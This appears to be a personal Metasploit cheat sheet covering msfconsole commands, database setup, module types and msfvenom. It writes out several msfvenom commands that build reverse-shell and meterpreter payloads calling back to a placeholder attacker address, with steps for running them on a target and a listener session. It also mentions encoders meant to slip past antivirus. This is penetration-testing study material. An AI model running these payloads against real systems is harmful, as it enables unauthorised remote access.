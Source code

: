 ```yaml
---
title: "Metasploit"
date: 2022-06-30T14:57:29-05:00
draft: false
category: Networking
tags:
- Network
- Security
- Tools
---
```


METASPLOIT:
- executable: msfconsole
  - search: find modules
  - use ???: enables the use of module
  - show options: shows required options
  - set OPTION VALUE: sets options to values
  - unset [OPTION|all]: clear option or all options
  - setg/unsetg: set/unset option globally
  - show payloads: show possible payloads to be used
  - info: shows info on module
  - back: exit a used module 
  - exploit/run: execute an exploit
  - background/CTRL+Z: sends command to background session
  - sessions: list sessions
  - sessions -i #: switch to interactive session

- use database:
  - systemctl start postgresql
  - msfdb init
  - msfconsole
  - db_status
  - workspace -a NAME  - adds new workspace NAME
  - workspace NAME     - switches to workspace NAME
  - db_nmap            - runs nmap and saves it to db
    - hosts            - lists hosts info
    - services         - lists services info
  - hosts -R           - sets RHOSTS to host in db

- Modules:
  - Auxiliary: Any supporting module, such as scanners, crawlers and fuzzers, can be found here.
  - Encoders: Encoders will allow you to encode the exploit and payload in the hope that a signature-based antivirus solution may miss them.
  - Evasion: While encoders will encode the payload, they should not be considered a direct attempt to evade antivirus software.
  - Exploits: Exploits, neatly organized by target system.
  - NOPs: NOPs (No OPeration) do nothing, literally.
  - Payloads: Payloads are codes that will run on the target system.
    - Singles: Self-contained payloads (add user, launch notepad.exe, etc.) that do not need to download an additional component to run.
    - Stagers: Responsible for setting up a connection channel between Metasploit and the target system. Useful when working with staged payloads. 
               “Staged payloads” will first upload a stager on the target system then download the rest of the payload (stage). This provides some 
               advantages as the initial size of the payload will be relatively small compared to the full payload sent at once.
    - Stages: Downloaded by the stager. This will allow you to use larger sized payloads.
  - Post: Post modules will be useful on the final stage of the penetration testing process listed above, post-exploitation.

- PortScan
  - search portscan
  - scanner/discovery/udp_sweep

- msfvenom
  - allows you to access all payloads available in the metasploit framework
  - create payloads in different formats (PHP,exe,dll,elf,etc.) for different targets (apple,windows,android,linux,etc.)
  - Linux Executable and Linkable Format (elf)
    - msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
    - The .elf format is comparable to the .exe format in Windows. These are executable files for Linux. However, you may still need to make sure 
      they have executable permissions on the target machine. For example, once you have the shell.elf file on your target machine, use the 
      chmod +x shell.elf command to accord executable permissions. Once done, you can run this file by typing ./shell.elf on the target machine 
      command line.
  - Windows
    - msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
  - PHP
    - msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
  - ASP
    - msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
  - Python
    - msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
  - EXAMPLE:
    - msf6 > use exploit/multi/handler 
      [*] Using configured payload generic/shell_reverse_tcp
      msf6 exploit(multi/handler) > set payload php/reverse_php
      payload => php/reverse_php
      msf6 exploit(multi/handler) > set lhost 10.0.X.X
      lhost => 10.0.X.X
      msf6 exploit(multi/handler) > set lport XXXX
      lport => XXXX
      msf6 exploit(multi/handler) > run
